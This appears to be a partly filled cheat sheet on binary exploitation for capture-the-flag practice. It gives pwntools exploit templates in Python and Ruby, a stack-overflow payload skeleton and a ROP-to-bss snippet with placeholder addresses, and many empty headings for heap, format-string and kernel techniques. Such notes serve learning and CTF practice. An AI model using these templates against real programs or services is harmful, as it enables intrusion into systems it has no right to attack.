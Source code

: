 # Native Application Exploitation aka Binary Exploitation aka Pwning
Command Line cheat sheet for binary exploitation


* [Templates](#templates)
* MacOS
* Linux
	* Stack overflow
	* Format string
	* Heap
	* FILE
	* Integer overflow
	* Race conditions
	* Kernel
	* ARM
* Windows
	* Stack
	* Kernel
* [Browser](browser.md)

<h2 id="templates">Exploit template</h2>

<h4>Python</h4>

	#!/usr/bin/env python
	
	from pwn import *

	BINARY = './vuln'
	HOST, PORT = '8.8.8.8', 1337

	elf = ELF(BINARY)
	libc = ELF('./libc.so.6')

	context.arch = 'amd64'
	context.terminal = ['tmux', 'new-window']

	printf = elf.plt['printf']
	free_got = elf.got['free']
	malloc_hook = libc.sym['__malloc_hook']

	def start():
		if not args.REMOTE:
			print "LOCAL PROCESS"
			return process(BINARY)
		else:
			print "REMOTE PROCESS"
			return remote(HOST, PORT)

	
	def sample_function(data):
		p.sendlineafter('>> ', '1')
		p.sendafter(':\n', data)
	
	
	while True:
		p = start()	

	p.interactive()

<h4>Ruby</h4>
	
	gem install pwntools
	
	require 'pwn'
	
	context.arch = 'i386'
	context.log_level = :debug
	z = Sock.new 'chall.pwnable.tw', 10000

	z.recvuntil "Let's start the CTF:"
	z.send p64(0x1337).rjust(0x18, 'A')
	

	z.interact

	


<h2 id="linux">Linux</h2>

<h3 id="stack">Stack Exploitation</h3>
	
<h4>Stack overflow</h4>

	buffer = 'A' * 1337
	rip = p64(0x1337) # Address of shellcode
	payload = "SHELLCODE"

	exploit = buffer + rip
	

<h4>Shellcode in bss section</h4>

	buffer = 'A' * 1337
	gets = elf.plt['gets']
	bss = elf.bss(0x20) # BSS at 0x20 bytes offset
	pop_rdi = p64(0x1337)

	payload = buffer + pop_rdi + bss + gets + bss

<h4>Ret2libc</h4>

<h4>ROP syscall</h4>
		
<h4>ROP</h4>

<h3>Format String</h3>

<h3>Heap</h3>

<h4>Off by one</h4>

<h4>Chunk extension/Overlapping</h4>

<h4>Unlink</h4>

<h4>Use After Free</h4>

<h4>Fastbin attack</h4>

<h4>Unsorted bin attack</h4>

<h4>Large bin attack</h4>

<h4>Tcache attacks</h4>

<h4>House of Einherjar</h4>

<h4>House of Force</h4>

<h4>House of Lore</h4>

<h4>House of Orange</h4>

<h4>House of Rabbit</h4>

<h4>House of Roman</h4>

<h3>FILE</h3>

<h3>Integers</h3>

<h3>Race Conditions</h3>

<h3>Kernel</h3>
